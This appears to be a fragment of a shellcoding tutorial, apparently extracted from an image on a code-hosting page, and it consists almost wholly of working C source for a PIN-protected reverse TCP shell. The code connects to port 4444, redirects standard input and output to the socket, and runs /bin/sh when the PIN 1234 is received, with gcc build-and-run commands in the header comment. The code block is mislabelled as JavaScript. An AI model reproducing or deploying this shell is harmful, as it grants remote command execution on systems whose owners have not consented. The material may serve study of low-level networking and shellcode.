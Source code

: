 ```js
/*
reverse TCP shell which establishes a connection back on port 4444, if the PIN code 1234 is submitted.
$ gcc reverse.c -o reverse
$ ./reverse
*/

#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <string.h>

int main()
{
	int sockfd;
	char buf[4];
	int result;

	struct sockaddr_in server;
	server.sin_family = AF_INET;
	server.sin_addr.s_addr = INADDR_ANY;
	server.sin_port = htons(4444);
	bzero(&server.sin_zero, 8);

	char *const argv[] = {"/bin/sh", NULL};
	char *const envp[] = {NULL};

	//create a socket
	sockfd = socket(AF_INET, SOCK_STREAM, 0);
	//initiate a connection on a socket, on success 0 is returned
	connect(sockfd, (struct sockaddr *)&server, sizeof(server));
	dup2(sockfd, 0);
	dup2(sockfd, 1);
	dup2(sockfd, 2);

	write(sockfd, "PIN:", 4);
	read(sockfd, &buf, 4);

	result = strncmp("1234", buf, 4);
	if(result == 0)
	{
		execve("/bin/sh", argv, envp);
	}
	return 0;

}
```

#### <b>connect() syscall</b>
